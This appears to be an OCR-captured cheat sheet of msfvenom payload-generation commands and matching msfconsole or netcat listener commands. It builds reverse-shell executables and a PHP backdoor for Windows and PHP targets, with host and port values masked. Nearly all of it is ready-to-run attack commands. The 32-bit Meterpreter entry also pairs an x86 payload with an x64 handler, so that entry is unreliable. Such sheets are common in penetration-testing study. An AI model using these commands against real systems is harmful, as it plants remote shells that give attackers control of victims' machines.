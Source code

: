 
meterpreter x64
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=XXXX LPORT=XXX -f exe -o exploit_portXXX.exe
msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST XXXXX;set LPORT XXX;run

meterpreter 32bit
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 LHOST=XXX LPORT=XXX -f exe -o exploit_portXXX.exe
msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST XXX;set LPORT XXX;run'

windows shell x64
msfvenom -p windows/x64/shell/reverse_tcp LHOST=XXX LPORT=XX -f exe -o exploit_portXX.exe
nc -nvlp XX

windows shell 32bit
msfvenom -p windows/shell/reverse_tcp --platform windows -a x86 LHOST=XXXXX LPORT=XXX -f exe -o exploit_portXX.exe
nc -nvlp XX

PHP
msfvenom -p php/meterpreter/reverse_tcp LHOST=XXXX LPORT=XXX -f raw -o exploit_portXXX.php
msfconsole -q -x 'use exploit/multi/handler;set payload php/meterpreter/reverse_tcp;set LHOST XXXX;set LPORT XXX;run'

